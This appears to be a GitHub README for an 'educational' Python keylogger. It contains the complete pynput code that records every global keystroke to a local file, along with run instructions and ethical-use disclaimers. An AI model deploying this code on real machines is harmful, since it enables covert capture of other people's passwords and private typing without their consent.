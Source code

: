 <h1>Global Keyboard Event Listener (Educational Keylogger)</h1>
This repository contains a simple Python-based keylogger, designed for educational purposes to demonstrate how keyboard events can be captured and logged. The project is built using the pynput library and is intended to be used in a controlled and ethical environment. <br />

<h2>Features</h2>
- Captures global keyboard inputs, including both standard and special keys. <br />
- Logs keystrokes to a local file (keylog.txt). <br />
- Designed for educational purposes to explore system-level event handling. <br />
- Easy to use and extend for further experimentation.

<h2>Requirements</h2>
- Python 3.6 or higher <br />
- pynput library

<h2>Setup and Installation</h2>

1. Clone the Repository:

```
git clone https://github.com/yourusername/global-keyboard-listener.git
cd global-keyboard-listener
```

2. Install Dependencies: Install the required library:

```
pip install pynput
```

3. Run the Script:

```
python keylogger.py
```

4. Test It:
- Open any application (e.g., a text editor or browser).
- Type some text, press special keys (e.g., Enter, Shift), and then check the keylog.txt file for logged entries.

<h2>Usage</h2>
This script is for educational purposes only and must be used in a controlled environment. Unauthorized deployment or use may violate ethical guidelines and legal regulations. <br />

<h2>Code Explanation</h2>

1. Import Libraries

```
from pynput.keyboard import Listener
```
The Listener class from the pynput.keyboard module is used to monitor keyboard events.

2. Log File Path

```
log_file = "keylog.txt"
```
Specifies the file where keystrokes will be saved.

3. Handle Key Press Events

```
def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]")
```
Logs regular keys as key.char.

Logs special keys (e.g., Enter, Shift) in square brackets using key.

4. Start the Listener

```
def main():
    with Listener(on_press=on_press) as listener:
        listener.join()
```
Initializes the listener and starts monitoring keyboard inputs.

<h2>Example Output</h2>
For the following sequence of inputs: <br />

Hello World

[Backspace]

[Enter]

The keylog.txt file will contain:

```
Hello World[Backspace][Enter]
```

<h2>Ethical Use</h2>
This project is strictly for educational and ethical purposes. Ensure you:

- Test only in a controlled environment. <br />
- Have explicit permission to use the tool on any system. <br />
- Do not deploy this script for malicious purposes.

<h2>Future Enhancements</h2>
- Add encryption for the log file. <br />
- Include a timestamp for each logged keystroke. <br />
- Create a user interface for easier interaction.

<h2>Contributing</h2>
Contributions are welcome! If you have ideas for enhancements or bug fixes, feel free to: <br />

- Fork the repository. <br />
- Create a feature branch. <br />
- Submit a pull request.

<h2>License</h2>
This project is licensed under the MIT License. See the LICENSE file for details.

<h2>Disclaimer</h2>
This project is provided for educational purposes only. The developer assumes no responsibility for any misuse or damages caused by the use of this tool. Unauthorized use of this tool, including but not limited to monitoring without permission, may violate local, national, or international laws. Users are solely responsible for ensuring compliance with all applicable laws and ethical guidelines.
By using this tool, you agree to these terms and accept full responsibility for its usage.
